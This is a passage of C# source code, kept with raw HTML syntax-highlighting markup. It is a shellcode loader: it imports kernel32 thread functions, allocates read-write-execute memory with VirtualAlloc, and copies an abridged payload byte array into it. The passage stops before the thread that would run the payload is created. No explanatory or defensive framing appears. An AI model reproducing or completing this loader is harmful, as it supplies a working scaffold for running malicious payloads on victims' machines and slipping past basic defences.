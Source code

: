   <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">IntPtr</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpThreadAttributes<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwStackSize<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> lpStartAddress<span class="token punctuation">,</span> <span class="token class-name">IntPtr</span> param<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwCreationFlags<span class="token punctuation">,</span> <span class="token keyword">ref</span> <span class="token class-name">UInt32</span> lpThreadId<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span><span class="token class-name">IntPtr</span> hHandle<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwMilliseconds<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> MEM_COMMIT <span class="token operator">=</span> <span class="token number">0x1000</span><span class="token punctuation">;</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> PAGE_EXECUTE_READWRITE <span class="token operator">=</span> <span class="token number">0x40</span><span class="token punctuation">;</span>

  <span class="token keyword">public</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">void</span></span> <span class="token function">Main</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
  <span class="token punctuation">{</span>
    <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> shellcode <span class="token operator">=</span> <span class="token keyword">new</span> <span class="token constructor-invocation class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> <span class="token punctuation">{</span><span class="token number">0xfc</span><span class="token punctuation">,</span><span class="token number">0x48</span><span class="token punctuation">,</span><span class="token number">0x83</span><span class="token punctuation">,</span><span class="token range operator">..</span><span class="token punctuation">.</span><span class="token punctuation">,</span><span class="token number">0xda</span><span class="token punctuation">,</span><span class="token number">0xff</span><span class="token punctuation">,</span><span class="token number">0xd5</span> <span class="token punctuation">}</span><span class="token punctuation">;</span>


    <span class="token class-name">UInt32</span> codeAddr <span class="token operator">=</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>UInt32<span class="token punctuation">)</span>shellcode<span class="token punctuation">.</span>Length<span class="token punctuation">,</span> MEM_COMMIT<span class="token punctuation">,</span> PAGE_EXECUTE_READWRITE<span class="token punctuation">)</span><span class="token punctuation">;</span>
    Marshal<span class="token punctuation">.</span><span class="token function">Copy</span><span class="token punctuation">(</span>shellcode<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>IntPtr<span class="token punctuation">)</span><span class="token punctuation">(</span>codeAddr<span class="token punctuation">)</span><span class="token punctuation">,</span> shellcode<span class="token punctuation">.</span>Length<span class="token punctuation">)</span><span class="token punctuation">;</span>
